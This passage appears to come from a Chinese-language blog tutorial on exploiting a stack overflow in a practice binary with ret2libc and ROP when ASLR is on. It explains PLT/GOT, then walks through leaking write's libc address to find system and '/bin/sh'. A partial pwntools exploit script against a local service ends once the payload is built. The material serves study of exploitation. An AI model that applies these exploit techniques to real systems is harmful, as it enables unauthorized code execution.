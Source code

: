 
运行测试

![ret2libc]({{ '/images/201803/ret2libc_1_4.png' | prepend: site.baseurl }})

#### 0x02 ROP ####

开启ASLR

	echo 2 > /proc/sys/kernel/randomized_va_space

在这里我们可以将ASLR保护打开，通过ROP来进行绕过，首先我们对比下开启ASLR后程序的区段到底有什么不同

![ret2libc]({{ '/images/201803/ret2libc_2_1.png' | prepend: site.baseurl }})

从图中可知，开启ASLR之后，程序本身的`image`映射的虚拟地址还是不变(程序本身定义的vul_func函数的地址还是固定的)的，但是`.so`的链接库(引用该库中的函数的地址在内存中都不是固定的)和`stack`地址是在不断变化的

ROP利用也分很多种，我们这里列出的思路主要是通过泄露出libc.so中函数的地址，再通过该函数在libc.so中的固定偏移，来继续计算libc.so此时在内存中加载的起始地址(也叫基地址)，然后就可以通过偏移计算出我们需要的函数的地址(system地址)以及我们需要的字符串(/bin/sh)，这样我们就可以通过前面的技术继续构造exp

需要获取的：

- libc.so中函数的地址
- 获取Libc.so中特定函数以及字符串的偏移

为了更好的理解利用过程，我们还需要认识一下`plt`和`got`。通过`objdump`的输出可以直观的看到plt项和got项，这里我们以`read`函数作为例子

![ret2libc]({{ '/images/201803/ret2libc_2_2.png' | prepend: site.baseurl }})

`0x080482e0`为`read@plt`,`0x8049730`(该地址指向的内容为调用函数在内存中的地址)为`read@.got.plt`，程序在运行过程中调用函数时，首先会跳转到`read@plt`的地方，再调用jmp跳转到调用函数所处的真实地址。

因此在这个漏洞程序中，通过将返回地址覆盖成为`write@plt`,再将`write@.got.plt`的地址作为参数，就可以读取到原始`write`函数此时在内存中的真实地址，后续通过偏移我们就可以计算出其他函数在内存中的地址，进行调用。

ps：`.plt`和`.got.plt`是在程序镜像中保存的，因此地址并不会改变。

首先测试看能否成功泄漏出write函数在内存中的地址，这里我们利用`pwntools`中的ELF对象中的symbols和got属性可以快速获取到目标文件中函数的`plt`和`got`，例如`ELF['./vul'].symbols['write']`和`ELF['./vul'].got['write']` 

<pre>#!/usr/bin/python

from pwn import *

#p = process('./vul')
p = remote('127.0.0.1', 10000)
elf = ELF('./vul')

payload_len = 140 
write_plt_addr = elf.symbols['write']
print "write plt addr " + hex(write_plt_addr)
#wirte_plt = 0x08048300
#write_got = 0x8049738
write_plt_got_addr = elf.got['write']
print "wirte plt got addr " + hex(write_plt_got_addr)
vul_func = 0x0804841b

payload = "A"\*payload_len + p32(write_plt_addr) + p32(vul_func) + p32(1) + p32(write_plt_got_addr) + p32(4)
print payload
